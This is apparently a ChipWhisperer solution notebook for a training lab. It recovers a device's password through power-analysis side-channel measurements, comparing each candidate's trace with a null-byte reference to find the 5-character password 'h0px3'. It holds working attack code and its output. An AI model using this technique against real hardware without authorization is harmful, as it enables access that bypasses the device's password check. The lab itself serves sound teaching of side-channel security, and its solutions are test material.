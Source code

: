 SOLUTION WITH SIMULATION: Part 2, Topic 1, Lab B: Power Analysis for Password Bypass
====================================================================================



**SUMMARY:** *This tutorial will introduce you to breaking devices by
determining when a device is performing certain operations. Our target
device will be performing a simple password check, and we will
demonstrate how to perform a basic power analysis.*

**LEARNING OUTCOMES:**

-  How power can be used to determine timing information.
-  Plotting multiple iterations while varying input data to find
   interesting locations.
-  Using difference of waveforms to find interesting locations.
-  Performing power captures with ChipWhisperer hardware (hardware only)

Prerequisites
-------------

Hold up! Before you continue, check you've done the following tutorials:

-  ☑ Jupyter Notebook Intro (you should be OK with plotting & running
   blocks).
-  ☑ SCA101 Intro (you should have an idea of how to get
   hardware-specific versions running).

Power Trace Gathering
---------------------

At this point you've got to insert code to perform the power trace
capture. There are two options here: \* Capture from physical device. \*
Read from a file.

You get to choose your adventure - see the two notebooks with the same
name of this, but called ``(SIMULATED)`` or ``(HARDWARE)`` to continue.
Inside those notebooks you should get some code to copy into the
following section, which will define the capture function.

Be sure you get the ``"✔️ OK to continue!"`` print once you run the next
cell, otherwise things will fail later on!

Choose your setup options here:


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'NONE'
    PLATFORM = 'NONE'
    VERSION = 'SIMULATED'
    SS_VER = 'SS_VER_2_1'
    allowable_exceptions = None
    CRYPTO_TARGET = 'NONE'


**In [2]:**

.. code:: ipython3

    if VERSION == 'HARDWARE':
        %run "Lab 2_1B - Power Analysis for Password Bypass (HARDWARE).ipynb"
    elif VERSION == 'SIMULATED':
        %run "Lab 2_1B - Power Analysis for Password Bypass (SIMULATED).ipynb"


**Out [2]:**



.. parsed-literal::

    ✔️ OK to continue!




**In [3]:**

.. code:: ipython3

    trace_test = cap_pass_trace("h\n")
    
    #Basic sanity check
    assert(len(trace_test) == 3000)
    print("✔️ OK to continue!")


**Out [3]:**



.. parsed-literal::

    ✔️ OK to continue!



Exploration
-----------

So what can we do with this? While first off - I'm going to cheat, and
tell you that we have a preset password that starts with ``h``, and it's
5 characters long. But that's the only hint so far - what can you do?
While first off, let's try plotting a comparison of ``h`` to something
else.

If you need a reminder of how to do a plot - see the matplotlib section
of the **Jupyter Introduction** notebook.

The following cell shows you how to capture one power trace with ``h``
sent as a password. From there:

1. Try adding the plotting code and see what it looks like.
2. Send different passwords to the device. We're only going to look at
   the difference between a password starting with ``h`` and something
   else right now.
3. Plot the different waveforms.


**In [4]:**

.. code:: ipython3

    #Example - capture 'h' - end with newline '\n' as serial protocol expects that
    trace_h = cap_pass_trace("h\n")
    
    print(trace_h)
    
    # ###################
    # START SOLUTION
    # ###################
    %matplotlib inline
    import matplotlib.pyplot as plt
    plt.figure()
    plt.plot(cap_pass_trace("h\n"))
    plt.plot(cap_pass_trace("0\n"))
    plt.show()
    # ###################
    # END SOLUTION
    # ###################


**Out [4]:**



.. parsed-literal::

    [-0.02148438 -0.20703125 -0.15039062 ... -0.17871094 -0.10058594
     -0.0390625 ]




.. image:: img/_13_1.png


For reference, the output should look something like this:

If you are using the ``%matplotlib notebook`` magic, you can zoom in at
the start. What you want to notice is there is two code paths taken,
depending on a correct or incorrect path. Here for example is a correct
& incorrect character processed:

OK interesting -- what's next? Let's plot every possible password
character we could send.

Our password implementation only recognizes characters in the list
``abcdefghijklmnopqrstuvwxyz0123456789``, so we're going to limit it to
those valid characters for now.

Write some code in the following block that implements the following
algorithm:

::

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        plot(trace)
        

The above isn't quite valid code - so massage it into place! You also
may notice the traces are way too long - you might want to make a more
narrow plot that only does the first say 500 samples of the power trace.


**In [5]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    from tqdm.notebook import tqdm
    plt.figure()
    for c in tqdm('abcdefghijklmnopqrstuvwxyz0123456789'):
        trace = cap_pass_trace(c + "\n")
        plt.plot(trace[0:500])
    
    # ###################
    # END SOLUTION
    # ###################


**Out [5]:**


.. parsed-literal::

      0%|          | 0/36 [00:00<?, ?it/s]



.. image:: img/_16_1.png


The end result should be if you zoom in, you'll see there is a location
where a single "outlier" trace doesn't follow the path of all the other
traces. That is great news, since it means we learn something about the
system from power analysis.

Using your loop - you can also try modifying the analysis to capture a
correct "first" character, and then every other wrong second character.
Do you see a difference you might be able to detect?

The pseudo-code would look something like this:

::

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace("h" + CHARACTER + "\n")
        plot(trace)

Give that a shot in your earlier code-block, and then let's try and
automate this attack to understand the data a little better.

Automating an Attack against One Character
------------------------------------------

To start with - we're going to automate an attack against a **single**
character of the password. Since we don't know the password (let's
assume), we'll use a strategy of comparing all possible inputs together.

An easy way to do this might be to use something that we know can't be
part of the valid password. As long as it's processed the same way, this
will work just fine. So for now, let's use a password as ``0x00`` (i.e.,
a null byte). We can compare the null byte to processing something else:


**In [6]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("\x00\n")[0:500]
    plt.plot(ref_trace)
    other_trace = cap_pass_trace("c\n")[0:500]
    plt.plot(other_trace)
    plt.show()


**Out [6]:**


.. image:: img/_20_0.png


This will plot a trace with an input of ":raw-latex:`\x`00" - a null
password! This is an invalid character, and seems to be processed as any
other invalid password.

Let's make this a little more obvious, and plot the difference between a
known reference & every other capture. You need to write some code that
does something like this:

::

    ref_trace = cap_pass_trace( "\x00\n")

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        plot(trace - ref_trace)

Again, you may need to modify this a little bit such as adding code to
make a new ``figure()``. Also notice in the above example how I reduced
the number of samples.


**In [7]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("h0p\x00\n")[0:500]
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace('h0p' + c + "\n")[0:500]
        plt.plot(trace - ref_trace)
    
    # ###################
    # END SOLUTION
    # ###################
        


**Out [7]:**


.. image:: img/_22_0.png


OK great - hopefully you now see one major "difference". It should look
something like this:

What do do now? Let's make this thing automatically detect such a large
difference. Some handy stuff to try out is the ``np.sum()`` and
``np.abs()`` function.

The first one will get absolute values:

.. code:: python

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])

        Out[]: array([1, 3, 1, 5, 6])

The second one will add up all the numbers.

.. code:: python

    import numpy as np    
    np.sum([-1, -3, 1, -5, 6])

        Out[]: -2

Using just ``np.sum()`` means positive and negative differences will
cancel each other out - so it's better to do something like
``np.sum(np.abs(DIFF))`` to get a good number indicating how "close" the
match was.


**In [8]:**

.. code:: ipython3

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])


**Out [8]:**



.. parsed-literal::

    array([1, 3, 1, 5, 6])




**In [9]:**

.. code:: ipython3

    import numpy as np
    np.sum([-1, -3, 1, -5, 6])


**Out [9]:**



.. parsed-literal::

    -2




**In [10]:**

.. code:: ipython3

    np.sum(np.abs([-1, -3, 1, -5, 6]))


**Out [10]:**



.. parsed-literal::

    16



Taking your above loop, modify it to print an indicator of how closely
this matches your trace. Something like the following should work:

::

    ref_trace = cap_pass_trace( "\x00\n")

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        diff = SUM(ABS(trace - ref_trace))

        print("{:1} diff = {:2}".format(CHARACTER, diff))


**In [11]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    ref_trace = cap_pass_trace( "h0p\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace("h0p" + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        
        print("{:1} diff = {:2}".format(c, diff))
        
    # ###################
    # END SOLUTION
    # ###################


**Out [11]:**



.. parsed-literal::

    a diff = 10.244140625
    b diff = 7.2578125
    c diff = 6.3515625
    d diff = 11.19140625
    e diff = 6.580078125
    f diff = 9.7705078125
    g diff = 7.85546875
    h diff = 8.5166015625
    i diff = 10.552734375
    j diff = 10.501953125
    k diff = 7.75390625
    l diff = 8.626953125
    m diff = 6.0947265625
    n diff = 7.12890625
    o diff = 7.8623046875
    p diff = 7.13671875
    q diff = 9.4189453125
    r diff = 8.626953125
    s diff = 9.7705078125
    t diff = 9.94921875
    u diff = 7.583984375
    v diff = 8.626953125
    w diff = 7.7060546875
    x diff = 100.5849609375
    y diff = 6.634765625
    z diff = 10.29296875
    0 diff = 8.4853515625
    1 diff = 9.8671875
    2 diff = 8.1884765625
    3 diff = 10.29296875
    4 diff = 6.234375
    5 diff = 10.26953125
    6 diff = 7.13671875
    7 diff = 6.3515625
    8 diff = 6.3515625
    9 diff = 7.3212890625



Now the easy part - modify your above code to automatically print the
correct password character. This should be done with a comparison of the
``diff`` variable - based on the printed characters, you should see one
that is 'higher' than the others. Set a threshold somewhere reasonable
(say I might use ``25.0`` based on one run).

Running a Full Attack
---------------------

Finally - let's finish this off. Rather than attacking a single
character, we need to attack each character in sequence.

If you go back to the plotting of differences, you can try using the
correct first character & wrong second character. The basic idea is
exactly the same as before, but now we loop through 5 times, and just
build up the password based on brute-forcing each character.

Take a look at the following for the basic pseudo-code:

::

    guessed_pw = "" #Store guessed password so far

    do a loop 5 times (max password size):
        
        ref_trace = capture power trace(guessed_pw + "\x00\n")
        
        for CHARACTER in LIST_OF_VALID_CHARACTERS:
            trace = capture power trace (guessed_pw + CHARACTER + newline)
            diff = SUM(ABS(trace - ref_trace))
            
            if diff > THRESHOLD:
                
                guessed_pwd += c
                print(guessed_pw)
                
                break


**In [12]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    guessed_pw = ""
    
    
    for _ in range(0, 5):  
    
        ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
        
        for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
            trace = cap_pass_trace(guessed_pw + c + "\n")
            diff = np.sum(np.abs(trace - ref_trace))
    
            if diff > 40.0:
                guessed_pw += c
                print(guessed_pw)
                break
    
    # ###################
    # END SOLUTION
    # ###################


**Out [12]:**



.. parsed-literal::

    h
    h0
    h0p
    h0px
    h0px3



You should get an output that looks like this:

::

    h
    h0
    h0p
    h0px
    h0px3

If so - 🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳 Congrats - you did it!!!!

If not - check some troubleshooting hints below. If you get really
stuck, check the ``SOLN`` version (there is one for both with hardware
and simulated).

Troubleshooting - Always get 'h'
--------------------------------

Some common problems you might run into - first, if you get an output
which keeps guessing the first character:

::

    h
    hh
    hhh
    hhhh
    hhhhh

Check that when you run the ``cap_pass_trace`` inside the loop (checking
the guessed password), are you updating the prefix of the password? For
example, the old version of the code (guessing a single character)
looked like this:

::

    trace = cap_pass_trace(c + "\n")

But that is always sending our first character only! So we need to send
the "known good password so far". In the example code something like
this:

::

    trace = cap_pass_trace(guessed_pw + c + "\n")

Where ``guessed_pw`` progressively grows with the known good start of
the password.

Troubleshooting - Always get 'a'
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This looks like it's always matching the first character:

::

    h
    ha
    haa
    haaa
    haaaa

Check that you update the ``ref_trace`` - if you re-use the original
reference trace, you won't be looking at a reference where the first N
characters are good, and the remaining characters are bad. An easy way
to do this is again using the ``guessed_pw`` variable and appending a
null + newline:

::

    trace = cap_pass_trace(guessed_pw + "\x00\n")

--------------

NO-FUN DISCLAIMER: This material is Copyright (C) NewAE Technology Inc.,
2015-2020. ChipWhisperer is a trademark of NewAE Technology Inc.,
claimed in all jurisdictions, and registered in at least the United
States of America, European Union, and Peoples Republic of China.

Tutorials derived from our open-source work must be released under the
associated open-source license, and notice of the source must be
*clearly displayed*. Only original copyright holders may license or
authorize other distribution - while NewAE Technology Inc. holds the
copyright for many tutorials, the github repository includes community
contributions which we cannot license under special terms and **must**
be maintained as an open-source release. Please contact us for special
permissions (where possible).

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY
CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT,
TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE
SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.


**In [13]:**

.. code:: ipython3

    assert guessed_pw == 'h0px3', "Failed to break password"
